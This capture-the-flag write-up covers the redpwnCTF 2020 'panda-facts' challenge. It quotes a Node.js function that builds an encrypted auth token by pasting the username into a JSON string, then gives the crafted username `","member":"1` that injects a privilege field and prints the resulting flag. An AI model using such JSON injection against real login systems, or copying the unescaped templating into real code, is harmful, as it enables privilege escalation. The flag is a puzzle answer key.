 # panda-facts

Authors: [roerohan](https://github.com/roerohan), [thebongy](https://github.com/thebongy)

Maybe we can call this JSON injection?

# Requirements

- Basic knowledge of Node.js.

# Source

- [index.js](./index.js)
- https://panda-facts.2020.redpwnc.tf/

# Exploitation

```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

You really just need to notice this function. Notice, the token is not created like `token.username = username`. It's formed in the following way:

```
const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`
```

This allows us to close the `"` with the help of the string we pass, and set member to a non-zero value.
<br />

We can just pass the username as `","member":"1` and the visit `/api/flag`.

```
{
  "success": true,
  "flag": "flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"
}
```

The flag is:

```
flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
```